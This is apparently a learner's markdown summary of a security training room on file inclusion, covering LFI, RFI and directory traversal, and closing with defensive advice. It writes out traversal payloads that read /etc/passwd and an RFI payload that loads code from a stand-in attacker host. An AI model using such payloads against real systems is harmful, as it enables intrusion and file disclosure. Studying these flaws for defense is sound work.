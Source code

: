 # 📂 File Inclusion Room – Summary

## 📝 Room Overview
In the **File Inclusion** room, I learned about file inclusion vulnerabilities and how attackers can use them to read sensitive files or even gain remote code execution. The room introduced **Local File Inclusion (LFI)**, **Remote File Inclusion (RFI)**, and **directory traversal** techniques, and showed how poor handling of user-supplied input in file paths can expose an application.

---

## 🔍 What I Learned

### 1. Local File Inclusion (LFI)
- **Lesson:** I learned how attackers can exploit an application that dynamically loads files (e.g., `page=home.php`) by modifying parameters to include local files.
- **Example:** Supplying `page=../../../../etc/passwd` can expose sensitive system files.
- **Takeaway:** LFI can be used to read logs, configuration files, and sometimes escalate to RCE (e.g., via log poisoning).

---

### 2. Remote File Inclusion (RFI)
- **Lesson:** I discovered how some applications allow external URLs to be loaded as files.
- **Example:** Supplying `page=http://attacker.com/shell.txt` can let an attacker execute malicious code.
- **Takeaway:** RFI is more severe than LFI and can lead directly to remote code execution if `allow_url_include` is enabled.

---

### 3. Directory Traversal
- **Lesson:** I practiced using `../` sequences to escape from restricted directories and access files outside the intended folder.
- **Example:** Requesting `page=../../../../etc/hosts` bypassed the intended restriction.
- **Takeaway:** Directory traversal is often combined with LFI to retrieve sensitive files.

---

### 4. Defensive Awareness
- **Key lessons:**  
  - Never trust user input for file paths.  
  - Implement whitelisting for allowed files instead of dynamically including user input.  
  - Disable dangerous PHP functions like `allow_url_fopen` and `allow_url_include`.  
  - Use secure coding practices to prevent directory traversal (`realpath()`, input sanitization).  

---

## 🎯 Key Skills Gained
- Identifying and exploiting **LFI** and **RFI** vulnerabilities.  
- Using **directory traversal** techniques to access restricted files.  
- Leveraging LFI for potential escalation (e.g., log poisoning, code injection).  
- Understanding how to secure applications against file inclusion flaws.  
